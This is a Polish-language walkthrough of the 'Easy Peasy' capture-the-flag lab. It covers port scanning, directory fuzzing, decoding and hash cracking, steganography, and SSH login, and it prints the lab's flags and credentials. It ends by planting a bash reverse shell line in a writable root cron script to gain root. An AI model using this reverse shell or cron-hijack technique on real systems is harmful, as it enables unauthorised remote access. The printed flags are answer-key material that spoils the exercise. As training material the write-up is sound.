 # Easy Peasy

IP=10.10.158.179

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -p- 10.10.158.179
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-09 05:41 EDT
Nmap scan report for 10.10.158.179
Host is up (0.049s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
6498/tcp  open  unknown
65524/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 52.41 seconds
```

Przeprowadzamy bardziej szczegółowy skan:

```
sudo nmap -p 80,6498,65524 -sV -sC 10.10.158.179
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-09 05:43 EDT
Nmap scan report for 10.10.158.179
Host is up (0.048s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.43 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.37 seconds
```

Zostały wykryte 3 porty. Wersja nginx to 1.16.1, a na najwyższym porcie działa usługa Apache.

## Skanowanie

### Port 80

Rozpoczynamy od sprawdzenia portu 80:

![80](img/80.JPG)

Jest to domyślna strona nginx. Przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.158.179/FUZZ -c  -recursion
```

![Ffuf](img/Ffuf.JPG)

Program wykrył dwa katalogi. Przechodzimy do katalogu /hidden/whatever:

![What](img/What.JPG)

Znajdujemy tutaj fotografię. Sprawdzamy źródło strony:

![Base64](img/Base64.JPG)

Widzimy ukryty ciąg znaków zakodowany algorytmem Base64, który dekodujemy przy pomocy [CyberChef'a](https://gchq.github.io/CyberChef/):

![Flag1](img/Flag1.JPG)

Odczytujemy pierwszą flagę:

```
flag{f1rs7_fl4g}
```

### Port 65524

Przechodzimy do sprawdzenia portu 65524. Jest to domyślna strona Apache'a:

![Apache](img/Apache.JPG)

Przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.158.179:65524/FUZZ -c -recursion
```

![Ffuf2](img/Ffuf2.JPG)

W pliku robots.txt w polu User-Agent znajdujemy ciekawy ciąg znaków przypominających hash:

![Robots](img/Robots.JPG)

```
a18672860d0510e5ab6699730763b250
```

Korzystamy z [dekodera online](https://md5hashing.net/), aby złamać hash'a w formacie MD5. Otrzymujemy drugą flagę:

![Flag2](img/Flag2.JPG)

```
flag{1m_s3c0nd_fl4g}
```

W źródle domyślnej strony Apache'a znajdujemy trzecią flagę oraz pewną ukrytą notkę:

![Flag3](img/Flag3.JPG)

```
flag{9fdafbd64c47471a8f54cd3fc64cd312}
```

![Hidden](img/Hidden.JPG)

```
ObsJmP173N2X6dOrAgEAL0Vu
```

Dekodujemy ciąg znaków przy pomocy [CyberChef'a](https://gchq.github.io/CyberChef/):

![Chef](img/Chef.JPG)

```
/n0th1ng3ls3m4tt3r
```

Przechodzimy do ukrytej lokalizacji, która zawiera dwa zdjęcia:

![Photo](img/Photo.JPG)

W źródle strony znowu znajdujemy ciąg znaków przypominających hash:

![Hash](img/Hash.JPG)

Korzystamy z [dekodera online](https://md5hashing.net/), aby złamać hash'a w formacie GOST. Otrzymujemy hasło:

![Pass](img/Pass.JPG)

```
mypasswordforthatjob
```

Pobieramy zdjęcia i za pomocą narzędzia steghide, wydobywamy ukryte informacje przy użyciu zdobytego hasła:

![Steg](img/Steg.JPG)

```
steghide --extract -sf binarycodepixabay.jpg 
```

Korzystając z [CyberChef'a](https://gchq.github.io/CyberChef/) dekodujemy hasło do serwisu SSH:

![Binary](img/Binary.JPG)

```
iconvertedmypasswordtobinary
```

### Port 6498

Logujemy się do serwisu SSH przy pomocy zdobytych danych:

```
boring:iconvertedmypasswordtobinary
```

W katalogu domowym użytkownika boring znajdujemy czwartą flagę, którą dekoduejmy przy użyciu [CyberChef'a](https://gchq.github.io/CyberChef/):

![Flag4](img/Flag4.JPG)

```
synt{a0jvgf33zfa0ez4y}
```

![ROT13](img/ROT13.JPG)

```
flag{n0wits33msn0rm4l}
```

Przechodzimy do katalogu /var/www, w którym znajduje się plik .mysecretcronjob.sh:

![Cron](img/Cron.JPG)

Plik został stworzony przez użytkownika boring, zatem możemy go edytować przy pomocy komendy nano ustawiając reverse shell'a:

![Nano](img/Nano.JPG)

```
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

Ustawiamy nasłuchiwanie na wybranym porcie i po chwili uzyskujemy dostęp do serwera jako użytkownik root:

![Root](img/Root.JPG)

W katalogu domowym użytkownika root znajdujemy piątą flagę:

![Flag5](img/Flag5.JPG)

```
flag{63a9f0ea7bb98050796b649e85481845}
```

Do zobaczenia na kolejnych CTF-ach!
